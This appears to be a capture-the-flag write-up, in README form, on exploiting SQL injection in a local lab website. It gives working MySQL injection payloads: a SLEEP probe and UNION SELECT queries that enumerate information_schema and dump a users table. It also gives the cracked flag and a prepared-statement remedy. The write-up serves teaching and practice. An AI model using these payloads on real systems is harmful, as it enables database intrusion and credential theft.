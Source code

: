 # SQL_Injection
Ahhhh the notorious SQL Injection. This attack from the hacker aims to manipulate the database specifically an SQL database to expose sensitive data such as user email and password if the website does have such. Basically if an Input is used to search through the database for a specif field, table or database data, and is not hanled properly by the server. A hacker can just simply append an Instruction to value that asks for the database to give out more information than what was originally purposed.

## Example
In http://192.168.43.251/index.php?page=member, we are presented with a page that has a form input. An obvious assumpution is that since the input requires a values to search for a particular member, that value is used by the server to query the database. We can simply check this by giving a value and appending to it anything that might error, or even tell us the type of SQL database that is beign used for example

If we give this value ' and then we get an error from the database then we know that the input is being taken straight to the database and is being as is. This is exacly what happens in this case. We receive the 
Error: "You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '\'' at line 1".
From here on out we can genlty manipulate the database and ask it to give the name of the tables, databases and the type of database being used. And so through a set of commands we are not only able to determine the type of database but alson all the databases along with their tables and fields.

## Commands
* 1  AND 1 = SLEEP(2);--
* 1 UNION (SELECT 1,2 FROM dual );--
* 1 UNION (SELECT TABLE_NAME, TABLE_SCHEMA  FROM information_schema.tables);--
* 1 UNION (SELECT COLUMN_NAME, 1 FROM information_schema.columns );--

### One of these tables is users
> Table : users
> Colunm : user_id
> Colunm : first_name
> Colunm : last_name
> Colunm : town
> Colunm : country
> Colunm : planet
> Colunm : Commentaire
> Colunm : countersign

 * And through a number of these commands we are able to retrieve out flag   
### Retrive flag
* 1 UNION (SELECT user_id, first_name FROM users);--
* 1 UNION (SELECT last_name, town FROM users);--
* 1 UNION (SELECT country, planet FROM users);--
* 1 UNION (SELECT Commentaire, countersign FROM users);--

* instruction: Decrypt this password -> then lower all the char. Sh256 on it and it's good !   
* hash : 5ff9d0165b4f92b14994e5c685cdce28

* flag: 5ff9d0165b4f92b14994e5c685cdce28 -md5> fortytwo -sha256> 10a16d834f9b1e4068b25c4c46fe0284e99e44dceaf08098fc83925ba6310ff5 

## Remedy
* Now all of this  can be prevented by using prepared statements. Prepared statement will tell that database to look at the input as nothing else but just that, an input.

# Resources
* https://www.youtube.com/watch?v=ciNHn38EyRc